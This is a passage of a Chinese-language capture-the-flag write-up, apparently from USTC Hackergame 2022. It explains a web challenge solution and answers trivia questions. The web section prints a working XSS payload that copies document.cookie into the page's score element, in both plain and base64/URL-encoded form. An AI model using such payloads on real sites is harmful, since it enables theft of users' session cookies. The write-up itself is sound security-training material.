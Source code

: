 刚开始企图外带`cookie`，但是发现一旦访问自己的服务器程序就被Kill了

首先猜测后端可能添加了标签过滤，或者根本无法解析标签，但是经过测试后发现应该是题目环境无法访问外网

但注意最后会输出姓名以及成绩信息，因此直接将`cookie`填充到在`score`中

````html
123:<img src=1 onerror="document.getElementById('score').innerHTML=document.cookie;">
````

`base64`加`URL`编码后

```base64
MTIzOjxpbWcgc3JjPTEgb25lcnJvcj0iZG9jdW1lbnQuZ2V0RWxlbWVudEJ5SWQoJ3Njb3JlJykuaW5uZXJIVE1MPWRvY3VtZW50LmNvb2tpZTsiPg%3D%3D
```

![calcu-flag](./assets/calcu-flag.png)



> 其他两道Web题看到解出来的只有十几人，那就不打扰了🏳

# General

## 猫咪问答喵

> 1

直接搜索`中国科学技术大学 NEBULA 战队`，[这个网页](https://cybersec.ustc.edu.cn/2022/0826/c23847a565848/page.htm)中有成立时间![miao-1](./assets/miao-1.png)



> 2

通过[LUG官网](https://lug.ustc.edu.cn/)找到[演示的PPT的PDF版](https://ftp.lug.ustc.edu.cn/%E6%B4%BB%E5%8A%A8/2022.9.20_%E8%BD%AF%E4%BB%B6%E8%87%AA%E7%94%B1%E6%97%A5/slides/gnome-wayland-user-perspective.pdf)，发现关键词`Kdenlive`![miao-2](./assets/miao-2.png)



> 3

直接搜索`the latest version for win2000 firefox`可以找到官网的这个[网页](https://support.mozilla.org/en-US/questions/1052888)
两个`28`与`24`都试了但不对，仔细看了一下文章发现提问者用的`Firefox`是第三方的···文章中有正确答案是12
或者[Wikipedia](https://en.wikipedia.org/wiki/Firefox)中也可以找到

![miao-3](./assets/miao-3.png)



> 4

`Github`搜索技巧

![miao-4](./assets/miao-4.png)


